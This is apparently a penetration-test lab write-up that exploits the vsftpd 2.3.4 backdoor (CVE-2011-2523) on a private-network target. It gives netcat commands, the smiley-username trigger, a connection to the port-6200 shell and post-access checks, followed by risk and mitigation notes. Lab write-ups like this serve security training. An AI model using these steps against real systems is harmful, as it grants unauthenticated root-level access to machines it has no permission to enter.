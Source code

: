 ### 21/tcp – FTP (vsftpd 2.3.4)

- **Vulnerability:** Contains a backdoor triggered by a specially crafted username ending in `:)` (CVE-2011-2523).  
- **Exploitation Steps:**
  1. Connected to FTP service with Netcat:  
     ```bash
     nc 192.168.56.102 21
     ```
  2. Sent username:  
     ```
     USER backdoor:)
     ```
  3. Entered a random password (connection failed normally).  
  4. Connected to backdoor shell on port 6200:  
     ```bash
     nc 192.168.56.102 6200
     ```
  5. Verified shell access by running:  
     ```bash
     whoami
     id
     ls -la /home
     uname -a
     ```
- **Result:** Successfully obtained a remote shell on the target system.  
- **Risk:** Allows unauthenticated remote access with full system control.  
- **Mitigation:** Upgrade vsftpd to a secure version and monitor FTP services for unusual behavior.